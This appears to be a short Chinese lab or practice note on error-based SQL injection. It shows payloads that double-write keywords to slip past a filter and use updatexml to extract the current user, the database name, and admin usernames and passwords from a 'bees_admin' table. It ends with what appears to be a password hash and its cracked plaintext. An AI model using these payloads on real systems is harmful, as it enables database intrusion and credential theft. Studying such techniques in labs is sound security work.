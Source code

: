 # 报错绕过

双写绕过，`and` 写成 `aandnd`，中间 `and` 被替换后，是一个正确的 `and`，或者 `a and nd`

查找当前用户

```sql
admin' a and nd updatexml(1,concat('~',user()), 1)--+
```

查找数据库名

```sql
admin' a and nd updatexml(1,concat('~',database()), 1)--+
```

查找用户名

```sql
admin' a and nd updatexml(1,concat('~',*(selselectect admin_name fr from om bees_admin)), 1)--+
```


查找密码

```sql
admin' a and nd updatexml(1,concat('~',(selselectect admin_password fr from om bees_admin)), 1)--+
-- 长度超过错误输出最大内容

admin' a and nd updatexml(1,concat('~',(selselectect substr(admin_password,0) fr from om bees_admin)), 1)--+
```

ae3700364f2111b2cea75d8e19d2331e

aabbccdd@123
